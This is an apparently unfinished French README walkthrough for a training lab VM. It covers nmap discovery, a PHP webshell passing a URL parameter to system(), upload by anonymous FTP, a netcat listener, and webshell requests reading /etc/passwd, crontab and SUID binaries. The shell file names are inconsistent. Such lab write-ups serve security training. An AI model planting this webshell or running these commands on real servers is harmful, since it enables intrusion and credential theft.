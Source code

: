 
# télécharger
```01-Local1.ova```

# mettez ceci 
```sha1sum 01-Local1.ova``` pour vérifier le hash

# et regardez si le résultat est
```f3422f3364fd38e8183740f8f57fa951d3f6e0bf```

# installer virtualbox si ce n'est pas encore fait
```sudo apt update && sudo apt install -y virtualbox```

# assure toi d'avoir les outils nécessaires
```sudo apt update && sudo apt install -y net-tools nmap john hydra metasploit-framework```

# double clic sur ```01-Local1.ova```

# donnez 4096MB comme RAM (pour renforcer la machine virtuelle)
au lieu de de 512

# Changez l'adapter en NAT
au lieu de Bridge

# assure toi que la machine virtuelle
soit activée

# mettez ceci
nmap -sn 192.168.1.0/24

# sélectionnez l'adresse de la VM et mettez ceci
nmap -A ```adresse```

# se connecter
se connecter et examiner les fichiers trouvés

# créer webshell.php et y mettre ceci:
```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    $cmd = ($_GET['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
```

# mettre ceci
ftp 192.168.1.26
login: anonymous
pwd: Entrée (le bouton)

# téléverser le fichier
```put nc.php```

# éxécuter ceci dans un terminal
- nc -lvnp 12000
    - -l : Active le mode "listener".
    - -v : Mode verbeux pour voir les connexions établies.
    - -n : Ignore les DNS pour accélérer la connexion.
    - -p 12000 : Spécifie le port d'écoute.

# faire passer www-data à un utilisateur privilégié

# mettre ceci dans le navigateur:
- http://192.168.1.26/files/simple_shell.php?cmd=cat%20/etc/crontab
- http://192.168.1.26/files/simple_shell.php?cmd=find%20/%20-perm%20-u=s%20-type%20f%202%3E/dev/null
- http://ADRESSE_IP_VM/files/webshell.php?cmd=cat%20/etc/passwd
- http://192.168.1.26/files/webshell.php?cmd=ls%20-l%20/etc/shadow
- http://192.168.1.26/files/webshell.php?cmd=cat%20/var/backups/apt.extended_states.1.gz

# username
shrek

# password
not yet

# developer
- Prénom NOM: Mouhamed DIOUF
- email: seydiahmedelcheikh@gmail.com

-----------------------------------------------------------------------------------------------

# link for kali
- https://www.youtube.com/watch?v=trPm2DB8678
- https://www.youtube.com/watch?v=B7wCf0JiOcM&list=PLZEN0mW2CQl38fx0wtv53VEmn5CKJIrLA